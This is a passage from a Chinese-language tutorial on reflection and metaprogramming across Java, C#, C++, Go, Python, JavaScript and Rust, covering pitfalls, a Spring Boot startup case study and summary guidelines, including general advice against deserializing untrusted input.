var dm = new DynamicMethod("Add", typeof(int), new[] { typeof(int), typeof(int) });
var il = dm.GetILGenerator();
il.Emit(OpCodes.Ldarg_0);
il.Emit(OpCodes.Ldarg_1);
il.Emit(OpCodes.Add);
il.Emit(OpCodes.Ret);
var add = (Func<int, int, int>)dm.CreateDelegate(typeof(Func<int, int, int>));
Console.WriteLine(add(2, 3));   // 5

// 表达式树（更高级）
Expression<Func<User, string>> expr = u => u.Name;
var compiled = expr.Compile();
Console.WriteLine(compiled(user));
```

**C# 反射特色**：

- `Reflection.Emit`：运行时生成 IL，性能极佳
- `Expression`：把 Lambda 当 AST 操作（LINQ to SQL、EF Core 全靠这个）
- 泛型不擦除：`List<int>` 和 `List<string>` 是不同的运行时类型
- Source Generators (.NET 5+)：编译期代码生成，类似 Rust derive

Newtonsoft.Json、Entity Framework 的极致性能都靠 `Reflection.Emit`。

### 7.3 C++：RTTI + 模板元编程

C++ 走的是完全相反的路——**把反射放到编译期做**：

```cpp
// 运行时反射极其有限
class Animal { public: virtual ~Animal() = default; };
class Dog : public Animal {};

Animal* a = new Dog();
if (auto* d = dynamic_cast<Dog*>(a)) { /* 安全转型 */ }
std::cout << typeid(*a).name();   // "Dog"（部分编译器是 mangled name）

// 编译期反射强大但语法复杂
template<typename T>
constexpr size_t field_count() {
    if constexpr (std::is_aggregate_v<T>) {
        // C++17 起的结构化绑定可以做编译期"字段计数"
        // 现代 C++ 库 boost::pfr / magic_get 利用这个做编译期反射
    }
    return 0;
}
```

**C++ 反射的现状与未来**：

- **现状**：RTTI 弱（只有 `typeid` + `dynamic_cast`），靠 `boost::pfr` / `magic_get` 借用语言特性做有限的编译期反射
- **C++26 P2996**：完整静态反射进标准——可以遍历字段、生成代码、操作类型
- **设计取舍**："零成本抽象"哲学拒绝为"可能用不到"的元数据付内存代价

### 7.4 Go：reflect 的双指针结构

**Go 的 `interface{}` 内部就是 `(type, value)` 双指针**——这是 Go 反射的物理基础：

```go
// runtime/runtime2.go 简化版
type eface struct {
    _type *_type           // 指向类型元数据
    data  unsafe.Pointer   // 指向实际数据
}
```

`reflect.TypeOf` / `reflect.ValueOf` 就是把这两个指针取出来：

```go
type User struct {
    Name string `json:"name"`
    Age  int    `json:"age"`
}

func ToJson(obj interface{}) string {
    v := reflect.ValueOf(obj)
    t := v.Type()
    var sb strings.Builder
    sb.WriteByte('{')
    for i := 0; i < t.NumField(); i++ {
        if i > 0 {
            sb.WriteByte(',')
        }
        f := t.Field(i)
        // 优先读 json tag
        name := f.Tag.Get("json")
        if name == "" {
            name = f.Name
        }
        fmt.Fprintf(&sb, `"%s":%v`, name, v.Field(i).Interface())
    }
    sb.WriteByte('}')
    return sb.String()
}
```

**Go 反射特色**：

- **Tag 系统**：`reflect.StructTag` 是配置驱动框架的基石
- **Set/Get 严格分离**：`Value.CanSet()` 防止意外修改
- **慢于 Java**：没有 JIT 优化路径
- **业界对策**：热路径**完全避开 reflect**，用代码生成（`easyjson`、`ffjson`、`sonic`）

`encoding/json` 用反射，`sonic`（字节跳动）用 SIMD + JIT 编译，性能差 10 倍——这是 Go 社区"性能至上"的产物。

### 7.5 Python：一切皆对象

Python 的哲学极端——**类是对象，方法是对象，模块是对象，一切都是对象，都有 `__dict__`**：

```python
class User:
    def __init__(self, name, age):
        self.name = name
        self.age = age
    def greet(self):
        return f"Hi, {self.name}"

u = User("Tom", 18)

# 反射四件套
print(u.__dict__)                # 读：{'name': 'Tom', 'age': 18}
setattr(u, 'email', 'a@b.com')   # 改
method = getattr(u, 'greet')     # 找
print(method())                  # 调

# 类本身就是值，能传参、能当返回值
def factory(cls, *args):
    return cls(*args)
u2 = factory(User, "Jerry", 20)

# 元编程：MetaClass 在类创建时介入
class AutoRepr(type):
    def __new__(mcs, name, bases, ns):
        ns['__repr__'] = lambda self: f"{name}({self.__dict__})"
        return super().__new__(mcs, name, bases, ns)

class Point(metaclass=AutoRepr):
    def __init__(self, x, y): self.x, self.y = x, y

print(Point(1, 2))   # Point({'x': 1, 'y': 2})
```

**Python 反射特色**：

- **完整且自然**：`getattr/setattr/hasattr/delattr` 是日常 API
- **MetaClass**：在类创建瞬间改造它，是 Django ORM 的灵魂
- **Descriptor 协议**：`__get__/__set__/__delete__`，property、classmethod、@dataclass 都用它
- **慢但够用**：纯 Python 反射开销小（因为本来就慢），所以没人特别优化

Django ORM、SQLAlchemy、pydantic 的全部魔法都在这套体系里。

### 7.6 JavaScript：Proxy 与 Reflect

JS 的 Proxy 是**行为拦截**式反射：

```javascript
// 实现一个自动校验的对象
const validated = new Proxy({}, {
    set(obj, prop, val) {
        if (prop === 'age' && typeof val !== 'number')
            throw new TypeError('age must be number');
        return Reflect.set(obj, prop, val);
    },
    get(obj, prop) {
        console.log(`reading ${prop}`);
        return Reflect.get(obj, prop);
    },
    has(obj, prop) {
        return prop in obj && !prop.startsWith('_');  // 隐藏私有属性
    }
});

validated.age = 18;     // OK
validated.age = "18";   // TypeError

// Vue 3 的响应式核心
function reactive(target) {
    return new Proxy(target, {
        get(obj, prop) { track(obj, prop); return Reflect.get(obj, prop); },
        set(obj, prop, val) {
            const ok = Reflect.set(obj, prop, val);
            trigger(obj, prop);
            return ok;
        }
    });
}
```

**JS 反射特色**：

- **Reflect 对象**：`Reflect.get/set/has/deleteProperty/construct`，标准化了 13 个反射操作
- **Proxy**：能拦截 13 种操作（get/set/has/deleteProperty/apply/construct...）
- **天然适合 AOP 与响应式**：Vue 3、SolidJS、Immer、MobX 的核心
- **不能拦截已有引用**：`const o = {}; const p = new Proxy(o, ...);`，已经持有 `o` 的代码绕过了 `p`

### 7.7 横向对比总表

| 维度 | Java | C# | Python | JS | Go | C++ | Rust |
|---|---|---|---|---|---|---|---|
| **元数据完整度** | ★★★★★ | ★★★★★ | ★★★★★ | ★★★★ | ★★★★ | ★ | ★ |
| **运行时反射** | ✓ | ✓ | ✓ | ✓ | ✓ | 弱 | 弱 |
| **编译期反射** | APT | Source Gen | 无 | 无 | go:generate | 模板/P2996 | derive 宏 |
| **拦截式反射** | Proxy/CGLIB | Castle DynamicProxy | `__getattribute__` | Proxy 原生 | 无 | 无 | 无 |
| **类型擦除** | 是（泛型） | 否 | N/A | N/A | N/A | 否 | 否 |
| **反射性能（相对）** | 0.05x | 0.1x | 0.3x | 0.5x | 0.05x | 0.5x | N/A |
| **加速手段** | MethodHandle/ByteBuddy | Reflection.Emit | C 扩展 | V8 优化 | 代码生成 | 模板 | derive |
| **典型框架** | Spring/Hibernate | EF/Newtonsoft | Django/SQLAlchemy | Vue/React | gorm/grpc | Boost | serde/tokio |
| **设计哲学** | "运行时第一" | "运行时 + IL 注入" | "动态优先" | "对象就是字典" | "用反射但要敬畏" | "零成本抽象" | "推到编译期" |

**一句话挑选指南**：

- **写大型业务框架** → Java / C#（动态反射成熟生态）
- **写动态 UI** → JS（Proxy 拦截响应式天生的）
- **写性能关键的服务** → Rust / Go + 代码生成
- **写胶水脚本** → Python（反射就是日常 API）
- **写嵌入式/系统底层** → C++（编译期模板能解决就别上 RTTI）

---

## 8.经典陷阱与反模式

### 8.1 性能陷阱

```java
// ❌ 反例 1：循环里反射查找
for (User u : users) {
    Field f = u.getClass().getDeclaredField("name");   // 每次都查
    f.setAccessible(true);                              // 每次都设
    f.set(u, "Tom");
}

// ✅ 提到外面缓存
Field f = User.class.getDeclaredField("name");
f.setAccessible(true);
for (User u : users) f.set(u, "Tom");
```

```java
// ❌ 反例 2：用 invoke 不用 invokeExact
MethodHandle h = ...;
h.invoke(user, name);          // 慢 2-3 倍

// ✅ 类型精确匹配
h.invokeExact(user, name);
```

```java
// ❌ 反例 3：反射搞 final 字段
Field f = User.class.getDeclaredField("CONSTANT");
f.setAccessible(true);
f.set(null, "new");
// 但 JIT 可能已经把 CONSTANT 内联到所有调用点 → 改了等于没改
```

### 8.2 安全陷阱

| 陷阱 | 危害 | 应对 |
|---|---|---|
| 反序列化恶意输入 | RCE | `ObjectInputFilter` + 不反序列化不可信输入 |
| `setAccessible(true)` 滥用 | 破封装、JDK 升级断 | JDK 17 默认拒绝，需 `--add-opens` |
| 多态默认开启 | Jackson/Fastjson 漏洞 | 关闭 autoType / DefaultTyping |
| ClassLoader 污染 | 任意代码执行 | 校验来源、签名验证 |
| `Class.forName(用户输入)` | 任意类加载 | 严格白名单 |

### 8.3 泛型擦除陷阱

```java
List<String> list = new ArrayList<>();
list.getClass().getGenericSuperclass();
// 拿到的是 ParameterizedType，但 E = Object（被擦除了）
```

**TypeToken 神技**——利用"匿名子类的泛型参数会保留在父类签名里"的规则：

```java
import com.google.gson.reflect.TypeToken;

Type t = new TypeToken<List<String>>(){}.getType();
// t 是 ParameterizedType，rawType=List, actualTypeArguments=[String]
// 这下 Gson/Jackson 知道要反序列化成 List<String> 了
```

底层原理：**匿名子类的泛型参数**会被编译器保留在父类的 `Signature` 属性里——JVM 擦除得不彻底的小角落被反射利用。

### 8.4 ClassLoader 陷阱

```java
// 经典陷阱：反射加载的类用错了 ClassLoader
Class<?> c = Class.forName("com.foo.Bar");
// → 用的是当前线程的 ContextClassLoader

// Web 容器中：每个 War 一个 ClassLoader
// 一不小心 forName 跨了 ClassLoader → ClassCastException
// （类名完全相同，但因为 ClassLoader 不同被认为是不同类）
```

**正确姿势**：

```java
// 显式指定 ClassLoader
Class<?> c = Class.forName("com.foo.Bar", true, this.getClass().getClassLoader());

// Spring 推荐的写法
Class<?> c = ClassUtils.forName("com.foo.Bar", ClassUtils.getDefaultClassLoader());
```

OSGi、Tomcat、Spring Boot Devtools 用户常被这个陷阱伤——一定要敬畏 ClassLoader 的隔离性。

### 8.5 跨语言反射陷阱速查表

把上面四类 Java 陷阱**横向扩展到七种语言**——你会发现反射陷阱在所有语言里都有等价物，只是名字不同：

| 陷阱类别 | Java | C# | Python | JavaScript | Go | C++ | Rust |
|---|---|---|---|---|---|---|---|
| **循环里反射查找** | 每次 `getDeclaredField` | 每次 `GetField` | `getattr` 每次走 MRO | `obj[key]` 破坏 IC | 每次 `Type.FieldByName` | 不适用 | 不适用 |
| **未缓存元数据** | `Field`/`Method` 应 `static final` | `MemberInfo` 应缓存 | 用 `@functools.lru_cache` 缓存 `inspect` | feedback vector 自动 | 缓存 `reflect.Type` | 不适用 | 不适用 |
| **类型擦除** | `List<String>` → `List` | **不擦除**（具体化） | **无静态泛型** | **无静态泛型** | **不擦除**（go1.18 单态化） | 模板单态化 | 单态化 |
| **泛型反射陷阱** | TypeToken 神技 | `typeof(List<string>)` 直接拿到 | N/A | N/A | `reflect.TypeOf((*List[string])(nil)).Elem()` | `boost::pfr` | `TypeId::of::<Vec<String>>()` |
| **不可变字段被反射改** | `final` 字段被 `setAccessible` 改 | `readonly` 被 `FieldInfo.SetValue` 改 | `__slots__` 可改 | `Object.freeze` 被绕 | 不可改（编译器拦） | N/A | N/A（借用检查器） |
| **反序列化 RCE** | Jackson autoType / Fastjson | `BinaryFormatter`/`TypeNameHandling.All` | `pickle.loads` 不可信输入 | `eval`/`Function()`/原型链污染 | `gob`+`plugin.Open` | N/A | N/A |
| **ClassLoader / 模块陷阱** | Tomcat 的 War ClassLoader 隔离 | AssemblyLoadContext 隔离 | `importlib` reload 残留 | ESM/CommonJS 双语言冲突 | `plugin.Open` 不能卸载 | N/A | crate 边界 |
| **invoke vs invokeExact** | `invokeExact` 类型必须精确匹配 | DynamicMethod 签名必须匹配 | 无对应 | 无对应 | `Value.Call` 必须传 `[]Value` | N/A | N/A |
| **动态代理重型** | CGLIB/ByteBuddy 加载慢 | Castle DynamicProxy 同 | Mock 库每次重新构造 | Proxy 不能拦截已有引用 | 无原生代理 | 无 | 无 |

**两条横向规律**：

1. **\"无类型擦除\"的语言（C#/C++/Rust/Go 1.18+）反射拿到的类型信息更丰富**——Java 是反例
2. **\"无运行时反射\"的语言（C/C++/Rust）天生免疫反序列化 RCE**——这是它们的安全优势

📌 **跨语言一句话忠告**：**只要你的语言支持运行时反射 + 反序列化，就一定要假设"反序列化不可信输入 = RCE"**——这条铁律救命。

---

## 9.经典案例串讲

> 把本章所有零散的概念——读/改/造/调四动词、三段式反射、静态/动态/拦截三模型、注解元数据、动态代理、字节码生成——**粘到一个真实工程故事**上：**Spring Boot 启动到首次接到 HTTP 请求**的全链路反射剧场。这是几乎所有 Java 服务都会经历的真实路径，也是反射技术 30 年沉淀的集大成。

### 9.1 案例背景：Spring Boot 启动 3 分钟之谜

**业务背景**：某电商交易服务，Spring Boot 3.x + 1200 个 Bean + 200 个切面，启动耗时 **180 秒**。运维 SLA 要求滚动发布不能超过 60 秒，**否则一次发布要发 6 小时**。

**性能 trace 抓出来的火焰图**：

| 阶段 | 耗时 | 反射动作 |
|---|---|---|
| ① ClassPath 扫描 | 30s | `@Component` 注解扫描（**读元数据**） |
| ② Bean 定义解析 | 25s | 反射读 constructor / setter / `@Autowired` 字段 |
| ③ Bean 实例化 | 40s | 反射 `Constructor.newInstance` |
| ④ 依赖注入 | 35s | 反射 `Field.set` 写私有字段 |
| ⑤ AOP 代理生成 | 45s | CGLIB 字节码生成 200 个代理类 |
| ⑥ 首个请求 | 5s | 缓存预热 |
| **合计** | **180s** | 几乎全是反射的代价 |

**这就是反射的"显微镜"现场**——我们一节一节把它对回本章知识点。

### 9.2 阶段一：Bean 扫描 — 静态反射读元数据

**Spring 第一步**：从 `classpath:**/*.class` 里找出所有标了 `@Service / @Component / @Repository` 的类。

```java
// Spring 内部（简化）
for (Resource r : scanner.findResources("classpath:com/myapp/**/*.class")) {
    ClassReader reader = new ClassReader(r.openStream()); // ASM 不加载类，只读 class 文件
    AnnotationVisitor v = new AnnotationVisitor() { ... };
    reader.accept(v);   // ← 关键：用 ASM 而不是 Class.forName
    if (v.hasAnnotation("@Component")) {
        beanDefinitions.add(...);
    }
}
```

**为什么用 ASM 不用反射？**（命中 §2.3 静态反射 + §6.3 字节码生成）

| 方案 | 单类耗时 | 副作用 |
|---|---|---|
| `Class.forName()` + `getAnnotations()` | 5ms | **触发类初始化**（static{}）→ 6000 个类一启动就 30s |
| ASM 读字节码 | 0.5ms | 不触发初始化，纯字节流扫描 |

**收益**：这一阶段用 ASM 把 30 秒压到了 3 秒——这是**编译期/静态反射"零开销"思想**的胜利（§2.3 静态反射模型，§7.5 七字真言 ①"编译期优于运行期"）。

> 📌 Spring Boot 3 的 **AOT 模式**（用 GraalVM Native Image）走得更远——**全部反射在编译期完成**，把 Bean 定义直接生成 Java 代码，运行时零反射。这就是 §7.5 节里"反射在 AOT 时代的归宿"的具体落地。

### 9.3 阶段二：依赖注入 — 动态反射改字段

**Spring 第二步**：对每个 Bean，遍历其 `@Autowired` 字段，**反射设置值**：

```java
public class OrderService {
    @Autowired
    private PaymentClient paymentClient;   // private 字段，没 setter

    @Autowired
    private InventoryService inventory;
}

// Spring 内部
for (Field f : clazz.getDeclaredFields()) {
    if (f.isAnnotationPresent(Autowired.class)) {
        f.setAccessible(true);             // ← §4.1 setAccessible 的代价
        Object dep = resolveBean(f.getType());
        f.set(beanInstance, dep);          // ← §3.2 反射调用三段式
    }
}
```

**这里命中本章三大知识点**：

**① §3.2 反射调用三段式**：
```
Field.set 实际执行：
  ① 元数据查询：从 FieldAccessor 表里查偏移 → ~50ns
  ② 参数装箱/类型检查：检查 dep 是否 instanceof f.getType() → ~30ns
  ③ 调用分派：通过 unsafe.putObject(base, offset, value) 写入 → ~20ns
  合计：~100ns（vs 直接 .field = dep 的 1ns，慢 100×）
```

**② §4.1 setAccessible 的代价**：每次调用都触发安全管理器检查。Spring 的优化是**调用一次后缓存 Field 对象**——`setAccessible(true)` 是一次性开关。

**③ §3.4 注解的元数据本质**：`@Autowired` 不是"魔法"——它是**类文件常量池里的一段元数据**，Spring 在扫描时把它读出来当指令用。

**收益**：1200 个 Bean × 平均 5 个字段 = 6000 次 Field.set，每次 100ns，光这一步固定开销 600μs——但**反射缓存命中后翻新调用降到 30ns**，相比未缓存的 300ns（含查找 Field 对象）快 10 倍。

### 9.4 阶段三：AOP 代理 — 拦截式反射造类

**Spring 第三步**：对每个标了 `@Transactional / @Async / @Cacheable` 的 Bean，生成一个**代理类**包裹原对象——这正是 §2.5 拦截式反射模型 + §5.2 动态代理的完整落地。

```java
// 用户写的
@Service
public class OrderService {
    @Transactional
    public void createOrder(Order o) { ... }
}

// Spring CGLIB 在运行时生成（伪代码）：
public class OrderService$$EnhancerByCGLIB extends OrderService {
    private MethodInterceptor interceptor;
    
    @Override
    public void createOrder(Order o) {
        return interceptor.intercept(this,            // 拦截器接管控制权
            METHOD_createOrder,
            new Object[]{o},
            METHOD_PROXY_createOrder);
        // 拦截器内部：开事务 → super.createOrder(o) → 提交/回滚
    }
}
```

**两条技术路线（§2.5 + §7 跨语言对比）**：

| 方案 | 适用类型 | 生成方式 | 性能开销 |
|---|---|---|---|
| **JDK Proxy** | 必须实现接口 | 反射拼接 InvocationHandler | 每次 invoke 约 200ns |
| **CGLIB / ByteBuddy** | 任意 class（含 final 字段） | 字节码生成 + 类加载 | 每次约 30ns |

**Spring 默认行为**（命中 §6.3 字节码生成）：
- 有接口 → JDK Proxy（无字节码生成开销）
- 无接口 → CGLIB（生成开销大但调用快）

**这里的"造"动词，是反射四动词里最重的一个**（§2.1）——它不只是查元数据，而是**在运行时让 JVM 加载一个原本不存在的类**。45 秒里其中 30 秒花在 CGLIB 生成 + 类加载（§01.类的加载核心原理的连锁触发）。

### 9.5 阶段四：从反射到字节码生成的性能跃迁

**优化升级版**——把启动时间从 180s 压到 35s（命中 §6 性能优化全套）：

**① 反射结果缓存**（§6.1）：
```java
private static final Map<Class<?>, Field[]> FIELD_CACHE = new ConcurrentHashMap<>();
// 第一次反射 100ns / 缓存后 30ns
```
**收益**：阶段二从 35s → 8s。

**② MethodHandle 替代反射**（§6.2）：
```java
// 反射版（慢）
method.invoke(obj, args);                              // ~200ns

// MethodHandle 版（快）
MethodHandle mh = LOOKUP.unreflect(method);
mh.invokeExact(obj, args);                             // ~20ns（接近直接调用）
```
**收益**：Spring 5+ 在框架内部大量替换为 MethodHandle，AOP 调用从 200ns → 30ns。

**③ 字节码生成（ByteBuddy）替代纯反射**（§6.3）：
- Jackson 序列化：从纯反射的 5μs / 对象 → 字节码生成访问器后 200ns / 对象，**快 25 倍**。
- 这就是为什么所有"高性能序列化框架"（Jackson Afterburner、Kryo、FlatBuffers）**最终都走上字节码生成**这条路。

**④ 编译期生成（GraalVM Native + AOT）**（§6.4 + §7.5）：
- Spring Boot 3 AOT 模式：把反射逻辑**编译时**展开成静态代码 → 启动 35s → **3s**。
- 这是反射技术演进的终点：**"运行时反射"被"编译时元编程"完全替代**。

### 9.6 案例知识点回归

| 启动阶段 | 用到的本章知识点 | 对应小节 |
|---|---|---|
| ① ASM 扫描 class 元数据 | 静态反射模型、字节码生成 | §2.3 / §6.3 |
| ① `@Component` 注解读取 | 注解的元数据本质 | §3.4 |
| ② `Field.set` 写私有字段 | 反射调用三段式、setAccessible 代价 | §3.2 / §4.1 |
| ② 反射结果缓存 | 反射缓存 | §6.1 |
| ③ CGLIB 代理 | 拦截式反射模型、动态代理 | §2.5 / §5.2 |
| ③ JDK Proxy | 运行时元编程 | §5.2 |
| ④ MethodHandle 加速 | MethodHandle 加速 | §6.2 |
| ④ Jackson Afterburner | 字节码生成性能跃迁 | §6.3 |
| ④ Spring Boot AOT | 编译期生成 / serde 思路 | §6.4 |
| ⑤ 七字真言"编译期优于运行期" | 七字真言 ① | §9 七字真言 |

**一句话提炼**：**Spring 是反射技术 30 年沉淀的终极教科书——它把"读、改、造、调"四动词、"静态/动态/拦截"三模型、"反射→MethodHandle→字节码生成→AOT"四级性能优化一字不漏地全部用上**。理解了这条故事线，你不仅理解了 Spring，**也理解了 Hibernate / Jackson / Mybatis / Junit / Mockito 这一整代框架的设计哲学**。

> 📌 **学习提示**：面试时如果有人问"Spring 启动慢，怎么优化？"，你能不能从①反射缓存②MethodHandle③字节码生成④AOT 编译四个层面同时回答？能，本章就吃透了。**这也是阿里、字节、Spring 核心团队的真实面试题**。

---

## 10.一句话总结

> **反射是"程序对自己的观察"，元编程是"程序对自己的改造"——前者让框架成为可能，后者让语言成为乐高。**

### 三个层次的认知升华

**第一层（What）**：反射让代码能在运行时**读、改、造、调**任何类型——这是所有"框架代码"的物理基础。

**第二层（How）**：所有反射 API 内部都是"**元数据查询 → 参数装箱 → 调用分派**"三段式，每段都是性能开销，每段都有对应优化（缓存、MethodHandle、ByteBuddy）。

**第三层（Why）**：反射的本质是**"把语言自己变成语言的数据"**——类型不再是编译器的特权，而是程序员可以在运行时操作的一等公民。这一思想推动了从 RTTI 到 Proxy、从模板到过程宏的整条演进线，也催生了现代软件工程的"框架时代"。

### 终极建议（七字真言）

1. **能编译期就别运行期**——`derive`/APT/Lombok 优于反射
2. **不得不用反射，请缓存**——`Field`/`Method` 是黄金
3. **热路径用 MethodHandle 或 ByteBuddy**——别让反射成为瓶颈
4. **永远不反序列化不可信输入**——RCE 漏洞 80% 出自这条
5. **理解你用的框架背后的反射策略**——看 Spring 用 CGLIB、Jackson 用反射缓存 + ASM、serde 用宏，是同一问题的不同答案
6. **拦截式优于查询式**——AOP/响应式需求用 Proxy 模型表达力更强
7. **失败要可观察**——反射异常分类抛出，禁用 `catch (Exception) {}` 静默吞掉

**七字真言的七语言映射**（验证它对所有语言都成立）：

| 真言 | Java/JVM | C# / .NET | Python | JavaScript | Go | C++ | Rust |
|---|---|---|---|---|---|---|---|
| ① 编译期优于运行期 | APT / Lombok / MapStruct | Source Generators / T4 | 无对应（运行期为主） | 装饰器（运行期） | `go:generate` / `stringer` | 模板 / P2996 | `derive` / 过程宏 |
| ② 反射要缓存 | `Field`/`Method` 缓存 | `MemberInfo` 缓存 | `inspect` + `lru_cache` | feedback vector 自动 | `reflect.Type` 缓存 | N/A | N/A |
| ③ 热路径绕反射 | MethodHandle / ByteBuddy | DynamicMethod / Expression | C 扩展 / Cython | V8 IC 优化 | 代码生成（easyjson/sonic） | 模板 | derive |
| ④ 不反序列化不可信输入 | ObjectInputFilter + 关 autoType | 禁 `BinaryFormatter` | 禁 `pickle` 不可信源 | 禁 `eval`/`Function()` | 慎用 `gob` 跨域 | N/A | serde 安全设计 |
| ⑤ 理解框架反射策略 | Spring CGLIB / Jackson ASM | EF Reflection.Emit | Django Meta / pydantic | Vue Proxy / Mobx | gorm 代码生成 | Boost.Hana | serde 宏 |
| ⑥ 拦截优于查询 | JDK Proxy / CGLIB | Castle DynamicProxy | `__getattr__`/`__call__` | Proxy + Reflect | 无原生 | N/A | N/A |
| ⑦ 失败可观察 | 分类异常（NoSuchMethodEx 等） | 分类异常 | AttributeError / TypeError | TypeError | error 分类 | 异常分类 | Result + 错误枚举 |

**结论**：七字真言**对所有支持反射的语言都成立**——只是各语言把"反射"翻译成了不同形态（运行时查询 / 拦截 / 编译期生成），但**核心权衡完全一致**。

📢 **语言无关重述**：你设计任何"通用框架"——序列化、ORM、DI、AOP、Mock——都要回答这七条。**这是过去 30 年框架工程师血泪沉淀出的设计 checklist**。

四个关键收获：

1. 反射的代价不是"神秘"，是 **查表 + 装箱 + 分派** 三段式的累积开销——**对所有语言一致**
2. 一切语言反射 API 都可以用 **"读/改/造/调" 四动词** 归一
3. **编译期元编程（宏/模板） ≠ 运行时反射**，前者零成本、后者灵活但昂贵
4. 注解/Attribute/装饰器/Tag 不过是**同一种"标记型元数据"** 的不同语言表现——框架读它做事

### 延伸阅读

- ← [03.对象和函数访问原理](./03.对象和函数访问原理.md)：理解了 vtable，反射 `invoke` 的分派原理就一目了然
- ← [06.JIT与运行时优化](./06.JIT与运行时优化.md)：反射的去虚化与内联缓存正是 JIT 优化的极致体现
- → [08.异常机制核心设计](./08.异常机制核心设计.md)：反射调用如何穿透异常栈展开
- → [33.内存回收机制设计](./33.内存回收机制设计.md)：对象销毁的话题并入 GC 卷，此处不再单列
